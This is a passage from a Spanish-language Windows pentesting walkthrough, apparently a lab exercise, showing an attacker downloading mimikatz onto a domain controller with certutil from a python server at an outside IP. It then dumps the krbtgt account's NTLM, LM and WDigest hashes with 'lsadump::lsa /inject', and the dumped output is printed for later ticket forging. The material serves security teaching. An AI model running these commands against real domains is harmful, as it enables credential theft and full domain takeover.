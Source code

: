 Subo el ejecutable a la máquina a través de un servidor **python3** y ejecuto este comando en la máquina del DC.

![](/assets/images/articles/pentesting-windows2/Untitled%201.png)

```powershell
certutil -f -urlcache -split [http://192.168.5.142:8080/mimikatz.exe](http://192.168.5.142:8080/mimikatz.exe) mimikatz.exe
```

Una vez subido lo ejecuto y lanzo este comando, que me arrojará una serie de datos que he de guardar para poder construir mi ticket y efectuar otros ataques posteriormente.

![](/assets/images/articles/pentesting-windows2/Untitled%202.png)

`lsadump::lsa /inject /name:krbtgt`

Al lanzar este comando me arroja una serie de **datos** que he de almacenar en un archivo para usarlo posteriormente.

```r
Domain : ELC4BR4CORP /S-1-5-21-125982298-3703263120-1654962388

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5a168273afef7e1c286cb06ba641d3e7
    LM   : 
  Hash NTLM: 5a168273afef7e1c286cb06ba641d3e7
    ntlm- 0: 5a168273afef7e1c286cb06ba641d3e7
    lm  - 0: 0014685580ac64d2d05487386f2bf9a1

 * WDigest
    01  0d288f2664600813cb76298df4e2e18b
    02  1737635f41c90f8f3378a04d5fd409a6
    03  ba35c9f65caa6aa92f057c71bd705c3c
    04  0d288f2664600813cb76298df4e2e18b
    05  1737635f41c90f8f3378a04d5fd409a6
    06  fe17b93f23311cfd6e9633abff15c1c1
    07  0d288f2664600813cb76298df4e2e18b
    08  7b41cae1acc9b639a14a5abb910cce4b
    09  7b41cae1acc9b639a14a5abb910cce4b
```